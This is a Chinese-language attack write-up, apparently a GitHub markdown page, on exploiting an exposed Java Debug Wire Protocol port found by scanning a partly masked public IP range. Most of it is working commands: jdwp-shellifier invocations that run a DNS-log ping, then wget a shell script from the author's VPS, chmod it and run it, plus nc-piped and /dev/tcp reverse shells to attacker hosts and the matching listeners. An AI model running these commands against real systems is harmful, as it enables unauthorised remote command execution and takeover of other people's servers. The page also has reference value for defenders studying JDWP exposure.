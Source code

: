 # 0x01 打点发现
nmap扫描某ip的C段，用时大概19h，对识别到的指纹信息依次查看，查看到如下信息
```
5005/tcp  open  jdwp       Java Debug Wire Protocol (Reference Implementation) version 1.8 1.8.0_191
|_jdwp-info: ERROR: Script execution failed (use -d to debug)
```
之前复现过JDWP的漏洞，故有此文

# 0x02 简单验证
telnet 106.53.xx.xx 5005  
返回JDWP-Handshake，即表示存在漏洞  
我这边没有返回JDWP-Handshake，不管它，继续尝试利用  
# 0x03 dnslog测试
1、先打个dnslog试试水  
POC下载地址：https://github.com/IOActive/jdwp-shellifier  
执行如下命令  
```
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xx.dnslog.cn"
```
dnslog平台成功收到回显，感觉有戏  
# 0x04 尝试反弹shell  
将如下内容保存为shell.txt，放置到vps下，并通过python3开启一个临时的http服务器
```
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
```
开启监听，需要开启2个监听，前面一个输入执行命令，后面一个输出命令执行结果
```
这里要注意，阿里云的vps开启nc监听，需要加个选项n，否则会报错

nc -lnvvp 3333
nc -lnvvp 4444
```
利用POC执行下载shell、对文件赋予可执行权限、执行shell
```
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
```
成功执行完，vps上并没有收到反弹回来的shell  
思考了一下，payload中使用nc连接vps，目标可能不存在nc，改用sh，修改shell.txt为如下
```
sh -i >& /dev/tcp/101.200.xx.xx/3333 0>&1 | /bin/sh | sh -i >& /dev/tcp/101.200.xx.xx/4444 0>&1%
```
成功接收到反弹shell，如下图  
![image](./pic/1.png)

# 参考链接：  
https://blog.csdn.net/weixin_43486390/article/details/114259762  
